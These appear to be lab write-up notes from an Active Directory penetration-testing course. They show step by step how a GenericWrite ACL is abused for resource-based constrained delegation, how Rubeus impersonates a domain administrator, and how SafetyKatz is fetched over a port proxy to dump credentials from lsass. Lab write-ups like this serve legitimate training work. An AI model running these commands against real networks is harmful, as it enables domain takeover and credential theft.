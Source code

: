 
Task 
• Find a computer object in US domain where we have Write permissions. 
• Abuse the Write permissions to access that computer as Domain Admin. 
• Extract secrets from that machine for users and hunt for local admin privileges for the users.


Powerview

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'mgmtadmin'}
```

![[Pasted image 20250318214520.png]]

Sweet! With GenericWrite on us-helpdesk. We can set Resource-based Constrained Delegation for ushelpdesk for our own student VM. We are using our student VM computer object and not the studentuserx as SPN is required for RBCD. 

Start a process with privileges of mgtmadmin. Use ArgSplit.bat on the student VM to encode “asktgt” Run the below command from an elevated shell:

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:mgmtadmin /aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

In the new process, set RBCD for student VMs to us-helpdesk using the Active Directory module. Note that we are setting RBCD for the entire student VMs in the current instance of lab to avoid overwriting the settings:

Active Module

```
$comps = 'student139$'
```


```
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps -Verbose
```

Now, we need AES key for the student VM to use its identity. Run mimikatz on your own studentx machine to extract AES keys. Start a command prompt with administrative privileges (Run as administrator) and run the below command. Note that you will get different AES keys for the studentx$ account, go for the one with SID S-1-5-18 that is a well-known SID for the SYSTEM user:

```
echo %Pwn% sekurlsa::ekeys
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe - args "%Pwn%" "exit"
```

![[Pasted image 20250318222544.png]]

```
echo %Pwn% s4u
```

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:STUDENT139$ /aes256:62918869f04568f584a2ada4b6a0c8e2ec90f86efe7472378ccc2e1c0180196c /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```


![[Pasted image 20250318222702.png]]

Use the AES key for studentx$ with Rubeus and request a TGS for HTTP SPN:

Let's use the HTTP TGS to access us-helpdesk as DA – administrator. Run the below command in the process where we injected the TGS above:

![[Pasted image 20250318222846.png]]

Now, to copy our loader to us-helpdesk, we need to access the filesystem. Let's request a TGS for CIFS using Rubeus in the same process as above:


```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:student139$ /aes256:62918869f04568f584a2ada4b6a0c8e2ec90f86efe7472378ccc2e1c0180196c /msdsspn:cifs/us-helpdesk /impersonateuser:administrator /ptt
```

Now, copy the Netloader, add port redirection and run SafetyKatz on us-helpdesk to extract credentials from lsass:

```
echo F | xcopy C:\AD\Tools\Loader.exe \\us-helpdesk\C$\Users\Public\Loader.exe /Y
```

![[Pasted image 20250318223841.png]]

```
winrs -r:us-helpdesk cmd
```

```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.139
```


```
echo %Pwn% sekurlsa::ekeys
```

```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args %Pwn% "exit"
```

![[Screenshot from 2025-03-18 23-07-07.png]]


Reuse the AES keys of helpdeskadmin and use Find-PSRemotingLocalAdminAccess for hunting local admin privileges. Run the OverPass-the-hash command using Rubeus from an elevated shell:

```
echo %Pwn% asktgt
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe - args %Pwn% /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


In the new process:

```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
```

```
Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose
```


![[Pasted image 20250318231217.png]]

So, helpdeskadmin has administrative privileges on us-adconnect too!

